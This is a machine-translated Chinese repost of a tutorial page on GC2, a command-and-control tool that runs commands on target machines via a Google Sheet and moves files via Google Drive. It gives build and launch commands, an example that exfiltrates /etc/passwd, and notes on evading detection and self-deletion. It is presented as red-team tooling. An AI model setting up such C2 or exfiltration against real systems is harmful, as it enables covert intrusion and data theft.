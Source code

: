 # GC2:一个命令和控制应用程序，允许攻击者使用 Google Sheet 在目标机器上执行命令，并使用 Google Drive 泄漏数据

> 原文：<https://kalilinuxtutorials.com/gc2/>

[![](img//718cc7e8b572c981a25fc35dfeadd3a1.png)](https://blogger.googleusercontent.com/img/a/AVvXsEiE_7mU-tO5G2dWGEffB1Hrhv-ylS1_JPEcjROjw40m078MSXthSIMaM0_anYSVGfDjr4tM9wykJcMAePXfVPXT3_3SJHN-sbKmhtMQMZvyLkqu65l3ZFS3yQfwgA-F8FLbhBf_d_yV6jW2xkNezYEUtiWUfJHnMe1prDEKfcPLDL4i4B9Ig1wfrj1w=s728)

**GC2**(Google Command and Control)是一个命令和控制应用程序，允许攻击者使用 Google Sheet 在目标机器上执行命令，并使用 Google Drive 导出数据。

**为什么**

开发该程序是为了在 Red 团队活动中提供不需要任何特殊设置(如:自定义域、VPS、CDN 等)的命令和控制。

此外，该程序将只与谷歌的域名(*.google.com)进行交互，使检测更加困难。

PS:请不要在 VirusTotal 上上传编译好的二进制🙂

**设置**

**构建可执行文件**

**git 克隆 https://github.com/looCiprian/GC2-sheet
CD GC2-sheet
去构建 gc2-sheet.go**

*   **创建新的 google“服务帐户”**使用 https://console.cloud.google.com/,创建新的 google“服务帐户”为服务帐户创建一个. json 密钥文件
*   **启用 Google Sheet API 和 Google Drive API** 启用 Google Drive API https://developers.google.com/drive/api/v3/enable-drive[–](https://developers.google.com/drive/api/v3/enable-drive-api)API 和 Google Sheet API https://developers.google.com/sheets/api/quickstart/go
*   **设置 Google Sheet 和 Google Drive** 创建一个新的 Google Sheet，并将服务帐户添加到电子表格的编辑组中(要添加服务帐户，请使用其电子邮件)

创建一个新的 Google Drive 文件夹，并将服务帐户添加到该文件夹的编辑组中(要添加服务帐户，请使用其电子邮件)

**启动 C2**

**gc2-sheet-key<GCP 服务账户凭证文件。JSON>–sheet<Google sheet ID>–drive<Google drive ID>**

*   PS:您还可以在代码中硬编码参数，这样您将只上传目标机器上的可执行文件(查看 root.go 和 authentication.go 中的注释)

**特色**

*   使用 Google Sheet 作为控制台执行命令
*   使用 Google Drive 在目标上下载文件
*   使用 Google Drive 进行数据渗透
*   出口

**命令执行**

该程序将每 5 秒执行一次对 spreedsheet 的请求，以检查是否有新的命令。命令必须插入“A”列，输出将打印在“B”列。

**数据泄露文件**

保留特殊命令来执行到目标机器的上传和下载

**从目标到 Google Drive**
**上传；
举例:
上传；/etc/passwd**

**下载文件**

保留特殊命令来执行到目标机器的上传和下载

**从 Google Drive 到 Target
下载；；
举例:
下载；；/home/user/downloaded.txt**

**退出**

通过发送命令 *exit* ，程序将从目标中删除自己并终止其进程

PS:来自 *os* 文档:*如果一个符号链接被用来启动进程，根据操作系统的不同，结果可能是符号链接或者它指向的路径*。在这种情况下，符号链接被删除。

**工作流程**

![](img//07c52082b369e05a79265fe666d9e33d.png)[**Download**](https://github.com/looCiprian/GC2-sheet)
